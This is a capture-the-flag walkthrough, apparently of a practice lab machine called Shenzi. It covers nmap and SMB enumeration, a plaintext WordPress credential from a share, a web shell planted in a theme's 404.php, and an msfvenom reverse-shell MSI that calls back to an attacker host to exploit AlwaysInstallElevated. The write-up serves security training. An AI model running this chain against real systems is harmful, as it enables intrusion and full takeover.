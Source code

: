 ![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/6a139e8d-6e50-48fe-83ba-fb4eb6adebc5)## First enumeration with nmap 

```shell
# Nmap 7.94SVN scan initiated Fri Mar  8 01:20:45 2024 as: nmap -sC -sV -T4 -oN service.nmap -p 21,80,135,139,443,445,3306,7680 -Pn 192.168.197.55
Nmap scan report for 192.168.197.55
Host is up (0.21s latency).

PORT     STATE  SERVICE       VERSION
21/tcp   open   ftp           FileZilla ftpd 0.9.41 beta
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
80/tcp   open   http          Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
| http-title: Welcome to XAMPP
|_Requested resource was http://192.168.197.55/dashboard/
135/tcp  open   msrpc         Microsoft Windows RPC
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
443/tcp  open   ssl/http      Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
| http-title: Welcome to XAMPP
|_Requested resource was https://192.168.197.55/dashboard/
445/tcp  open   microsoft-ds?
3306/tcp open   mysql?
| fingerprint-strings: 
|   FourOhFourRequest, HTTPOptions, JavaRMI, LANDesk-RC, LPDString, NCP, NULL, SMBProgNeg, TerminalServer, WMSRequest, giop, oracle-tns: 
|_    Host '192.168.45.248' is not allowed to connect to this MariaDB server
7680/tcp closed pando-pub
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF:01\xffj\x04Host\x20'192\.168\.45\.248'\x20is\x20not\x20allowed\x20to\x2
SF:0connect\x20to\x20this\x20MariaDB\x20server");
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-03-08T00:21:56
|_  start_date: N/A
|_clock-skew: 48s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Mar  8 01:21:20 2024 -- 1 IP address (1 host up) scanned in 35.28 seconds
```


## Enumerating port 80 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/2fe92045-0210-4caa-8eaf-4d4b7e8bf050)

the web server running on port `80` & `443` runs xampp and fuzzing for hidden dirs gave out nothing useful.


## Enumerating SMB 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/0180ced5-c745-439d-a14d-9a0d9e246ba0)

checking for smb shares, we got 2 shares on the smb server. 

```shell
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/PGP/Shenzi]
└─$ smbclient //192.168.185.55/Shenzi/ -N
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu May 28 16:45:09 2020
  ..                                  D        0  Thu May 28 16:45:09 2020
  passwords.txt                       A      894  Thu May 28 16:45:09 2020
  readme_en.txt                       A     7367  Thu May 28 16:45:09 2020
  sess_klk75u2q4rpgfjs3785h6hpipp      A     3879  Thu May 28 16:45:09 2020
  why.tmp                             A      213  Thu May 28 16:45:09 2020
  xampp-control.ini                   A      178  Thu May 28 16:45:09 2020

                12941823 blocks of size 4096. 6496339 blocks available
smb: \> 
```
found some interesting files in the `/shenzi` share 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/4c5451d1-5ff5-428b-9d70-6666d7a101da)

downloaded the files, and checking the `passwords.txt` file, we got a wordpress cred `admin:FeltHeadwallWight357`. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/8af1a08a-14bc-4ae2-aa82-9f8bf08aad7a)

given the name of the share is `shenzi` so i just include it in the webpage and boom we got a wordpress. remember we got wordpress credential. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/10b9b0ea-18cf-41fd-807c-8d8f9cc996b0)

let's login using the creds we got earlier. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/2bf8da13-75ef-4c76-918b-6d07f20b1605)

logged in as admin success. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/31d566bc-86b2-495c-b7b5-f361b8f36fd5)

navigate to `theme editor`, use twenty seventeen theme. edit the 404.php and put a web shell. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/01bb8b00-3038-479c-b291-ebc05a52c295)

navigate to the web shell and we got RCE. let's spawn a reverse shell

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/0e36ceeb-96af-45b0-a4f8-4171c985f393)

spawn a reverse shell



## Privilege Escalation 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/4f7d4400-06b7-4a5d-a40c-79d8fd5c0091)

running winpeas.exe, we can see `AlwaysInstallElevated` is enabled. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/d76540df-46bb-427b-8101-ec8a4320577d)

tried it manually to confirm. we can see it is available. let's exploit this

```shell
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/PGP/Shenzi]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.205 LPORT=443 -f msi -o reverse.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes
Saved as: reverse.msi
```
first we create a microsoft installer payload reverse shell. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/0926401c-7d92-47e9-8e13-c72f1b88b13c)

next we install the payload and boom we got a reverse shell as `nt authority/system`.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/c590efa2-9c14-468b-8a44-bc1e36acdd8e)

And we are through. 🙂 easy huh 

